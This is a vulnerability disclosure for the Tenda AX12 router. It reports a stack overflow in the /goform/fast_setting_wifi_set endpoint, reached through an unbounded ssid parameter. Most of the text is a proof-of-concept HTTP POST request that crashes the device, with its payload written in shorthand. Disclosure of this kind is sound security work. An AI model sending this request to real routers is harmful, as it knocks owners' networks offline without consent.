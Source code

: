 ## Vulnerability description ##
Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

## Vulnerability cause ##
In the /goform/fast_setting_wifi_set interface, the ssid parameter and the sprintf function passed through it do not limit the length, which will cause stack overflow and achieve the effect of a DoS denial of service attack.

![](D:\learning record\学术报告\路由器\Tenda\AX12\4\image\1.png)



## POC ##

Poc of Denial of Service(DoS):

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa+1000*a
```
